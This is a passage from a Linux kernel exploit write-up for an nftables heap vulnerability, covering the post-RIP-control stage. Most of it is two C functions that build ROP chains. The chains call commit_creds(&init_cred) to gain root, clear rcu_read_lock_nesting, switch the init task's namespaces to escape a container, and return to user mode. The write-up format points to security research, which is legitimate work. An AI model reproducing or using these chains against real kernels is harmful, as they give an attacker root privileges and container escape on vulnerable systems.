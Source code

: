 ### Post RIP

Store the ROP payload below to the `kmalloc-cg-96` and `kmalloc-cg-192` addresses leaked above, and execute it. `The ROP payload of `kmalloc-cg-192` is stored in `nft_rule->data` when the rule is created during the heap spraying. The ROP payload of `kmalloc-cg-96` is stored by spraying `nft_table->udata` after freeing the rule used in the heap spray.

```c
void make_payload(uint64_t* data){
    int i = 0;

    data[i++] = kbase + push_rbx_pop_rsp;

    // commit_creds(&init_cred)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = kbase + init_cred_off;
    data[i++] = kbase + commit_creds_off;

    // current = find_task_by_vpid(getpid())
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = getpid();
    data[i++] = kbase + find_task_by_vpid_off;

    // current += offsetof(struct task_struct, rcu_read_lock_nesting)
    data[i++] = kbase + pop_rsi_ret;
    data[i++] = 0x474;
    data[i++] = kbase + add_rax_rsi_ret;

    data[i++] = kbase + pop_rsp_ret;
    data[i++] = heap_addr1+0x20;
}

void make_payload2(uint64_t* data){
    int i = 0;

    // current->rcu_read_lock_nesting = 0 (Bypass rcu protected section)
    data[i++] = kbase + pop_rcx_ret;
    data[i++] = -0xffff;
    data[i++] = kbase + mov_rax_rcx_ret;

    // find_task_by_vpid(1)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = 1;
    data[i++] = kbase + find_task_by_vpid_off;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + mov_rdi_rax_ret;
    data[i++] = kbase + pop_rsi_ret;
    data[i++] = kbase + init_nsproxy_off;
    data[i++] = kbase + switch_task_namespaces_off;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + swapgs_restore_regs_and_return_to_usermode_off;
    data[i++] = 0;                  // rax
    data[i++] = 0;                  // rdx
    data[i++] = _user_rip;          // user_rip
    data[i++] = _user_cs;           // user_cs
    data[i++] = _user_rflags;       // user_rflags
    data[i++] = _user_sp;           // user_sp
    data[i++] = _user_ss;           // user_ss
}
```